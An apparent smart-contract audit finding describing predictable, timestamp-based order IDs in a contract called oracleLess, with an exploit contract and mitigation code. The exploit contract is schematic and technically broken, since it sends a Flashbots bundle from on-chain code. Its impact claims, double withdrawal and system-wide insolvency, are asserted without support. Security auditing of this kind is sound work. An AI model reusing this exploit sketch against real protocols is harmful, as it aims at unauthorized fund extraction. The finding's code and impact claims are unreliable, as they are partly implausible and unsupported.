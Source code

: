 Basic Violet Falcon

High

# Order ID Generation Vulnerability: Timestamp-Based Collisions in Decentralized Order Management

### Summary

Critical cryptographic weakness identified in `oracleLess.sol` where order identification relies solely on block timestamps, enabling malicious actors to predict and manipulate order IDs for unauthorized fund extraction.

### Root Cause

```solidity
// Current implementation
function createOrder(...) external override returns (uint96 orderId) {
    orderId = MASTER.generateOrderId(recipient);
    orders[orderId] = Order({...});
    pendingOrderIds.push(orderId); // No uniqueness validation
}

// In AutomationMaster.sol
function generateOrderId(address sender) external view returns (uint96) {
    return uint96(uint256(keccak256(abi.encodePacked(
        sender,
        block.timestamp // Predictable entropy source
    ))));
}
```


### Internal pre-conditions

1. Timestamp-based ID generation
2. Lack of order existence validation
3. Shared timestamp across same-block transactions
4. No nonce tracking mechanism

### External pre-conditions

1. MEV capabilities (optional)
2. Multiple transactions in same block
3. Access to protocol's order creation function

### Attack Path

```solidity
contract TimestampCollisionAttack {
    function executeAttack() external {
        // Transaction Bundle
        bytes[] memory txns = new bytes[](2);
        
        // First order: Small amount (5 USDT)
        txns[0] = abi.encodeWithSelector(
            oracleLess.createOrder.selector,
            USDT,
            5e6,
            recipient
        );
        
        // Second order: Large amount (25,000 USDT)
        txns[1] = abi.encodeWithSelector(
            oracleLess.createOrder.selector,
            USDT,
            25_000e6,
            recipient
        );
        
        // Submit in same block for ID collision
        flashbots.sendBundle(txns);
        
        // Both orders share ID but larger amount persists
        // Double withdrawal possible
    }
}
```

### Impact

- Deterministic order ID prediction
- Multiple withdrawals of same funds
- Protocol accounting corruption
- Potential system-wide insolvency

### Mitigation

```solidity
contract OracleLess {
    // Track per-user order counts
    mapping(address => uint256) public userOrderCount;
    // Track used order IDs
    mapping(uint96 => bool) public usedOrderIds;
    
    function createOrder(...) external override returns (uint96 orderId) {
        // Generate unique ID using multiple entropy sources
        orderId = uint96(uint256(keccak256(abi.encodePacked(
            msg.sender,
            block.timestamp,
            userOrderCount[msg.sender]++,
            block.prevrandao
        ))));
        
        // Ensure uniqueness
        require(!usedOrderIds[orderId], "Duplicate order ID");
        usedOrderIds[orderId] = true;
        
        // Create order
        orders[orderId] = Order({...});
        pendingOrderIds.push(orderId);
    }
}
```